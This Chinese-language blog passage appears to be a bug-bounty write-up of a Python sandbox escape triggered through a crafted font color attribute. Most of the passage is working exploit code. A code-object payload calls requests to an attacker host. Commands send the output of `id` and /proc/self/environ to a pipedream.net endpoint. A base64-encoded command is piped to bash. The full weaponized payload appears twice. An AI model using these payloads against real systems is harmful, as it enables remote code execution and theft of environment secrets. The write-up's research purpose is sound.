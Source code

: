 另一位白帽@rootxharsh曾遇到了类似的情况，其中curl，wget，ping不起作用，因此得出的结论是Chrome
浏览器进程可能是在启用了沙盒的情况下运行的，但事实上后来当另一位白帽@iamnoooob做同样检测时，他使用了反弹 shell 成功收到回调信息。

因此回到目标应用中，curl 等不起作用，那么为什么不尝试使用 python requests 模块呢？

    
    
    <font color="[ [ [ [ ftype(ctype(0, 0, 0, 0, 3, 67, b't\\x00d\\x01\\x83\\x01\\xa0\\x01d\\x02\\xa1\\x01\\x01\\x00d\\x00S\\x00', (None, 'requests', 'https://myhost'), ('__import__','get'), (), '<stdin>', '', 1, b'\\x12\\x01'), {})() for ftype in [type(lambda: None)] ] for ctype in [type(getattr(lambda: {None}, Word('__code__')))] ] for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">exploit</font>
    
    generic
    
    681 Bytes
    
    © Guge's Blog

替换了payload后，白帽子在他的服务器上成功地收到了pingbank：

`User-Agent: python-requests/2.31.0`

这也证明了我们可以在系统上实现任意代码执行，再次修改 poc 并依靠它来将命令输出发送到白帽子的服务器：

    
    
    python3 -c "import requests;requests.get('https://en2celq7rewbul.m.pipedream.net/$(id)')"
    
    generic
    
    89 Bytes
    
    © Guge's Blog

![]()

    
    
    python3 -c "import requests;requests.get('https://en2celq7rewbul.m.pipedream.net/$(cat /proc/self/environ)')"
    
    generic
    
    109 Bytes
    
    © Guge's Blog
    
    
    (None, 'os', 'echo cHl0aG9uMyAtYyAiaW1wb3J0IHJlcXVlc3RzO3JlcXVlc3RzLmdldCgnaHR0cHM6Ly9lbjJjZWxyN3Jld2J1bC5tLnBpcGVkcmVhbS5uZXQvJChjYXQgL3Byb2Mvc2VsZi9lbnZpcm9uKScpIg== | base64 -d|bash'), ('__import__', 'system')
    
    generic
    
    212 Bytes
    
    © Guge's Blog
    
    
    <font color="[ [ [ [ ftype(ctype(0, 0, 0, 0, 3, 67, b't\\x00d\\x01\\x83\\x01\\xa0\\x01d\\x02\\xa1\\x01\\x01\\x00d\\x00S\\x00', (None, 'os', 'echo cHl0aG9uMyAtYyAiaW1wb3J0IHJlcXVlc3RzO3JlcXVlc3RzLmdldCgnaHR0cHM6Ly9lbjJjZWxyN3Jld2J1bC5tLnBpcGVkcmVhbS5uZXQvJChjYXQgL3Byb2Mvc2VsZi9lbnZpcm9uKScpIg== | base64 -d|bash'), ('__import__', 'system'), (), '<stdin>', '', 1, b'\\x12\\x01'), {})() for ftype in [type(lambda: None)] ] for ctype in [type(getattr(lambda: {None}, Word('__code__')))] ] for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">exploit</font>
    